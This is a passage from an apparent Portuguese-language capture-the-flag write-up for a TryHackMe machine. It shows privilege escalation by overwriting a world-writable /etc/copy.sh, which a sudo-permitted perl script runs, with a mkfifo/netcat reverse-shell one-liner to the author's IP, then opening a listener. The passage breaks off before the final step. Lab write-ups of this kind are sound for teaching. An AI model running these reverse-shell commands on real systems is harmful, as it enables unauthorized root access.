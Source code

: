 <div class="page"/>

Aqui podemos ver que o usuário `www-data` tem permissão para executar o arquivo o binário `/usr/bin/perl` e o `/home/itguy/backup.pl` com o comando `sudo`. Vamos tentar ler o arquivo `/home/itguy/backup.pl` para ver se conseguimos encontrar alguma informação útil.

```bash
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Aqui podemos ver que o arquivo `/home/itguy/backup.pl` executa o arquivo `/etc/copy.sh` com o comando `system`. Vamos tentar ler o arquivo `/etc/copy.sh`.

```bash
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

O arquivo `/etc/copy.sh` executa um comando `nc` que faz uma conexão com o ip `192.168.0.190` na porta `5554`.

```bash
www-data@THM-Chal:/$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Utilizando o `ls` temos que o dono do arquivo é o usuário `root` e o grupo dono do arquivo é o `root`. Vamos tentar modificar o arquivo `/etc/copy.sh` para que ele execute um comando `nc` que nos conecte na nossa máquina.

```bash
www-data@THM-Chal:/$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f" > /etc/copy.sh
<t /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f" > /etc/copy.sh
www-data@THM-Chal:/$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.23 1234 >/tmp/f
```

Agora que conseguimos modificar o arquivo `/etc/copy.sh` vamos executar o arquivo `/home/itguy/backup.pl` utilizando o binário `perl` como sudo para que ele execute o arquivo `/etc/copy.sh`.

<div class="page"/>

Mas antes vamos abrir uma sessão no nosso computador para receber a conexão do nosso script.

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~                                                                                                           20:57:42
╰──➤ nc -nvlp 1234
listening on [any] 1234 ...

```
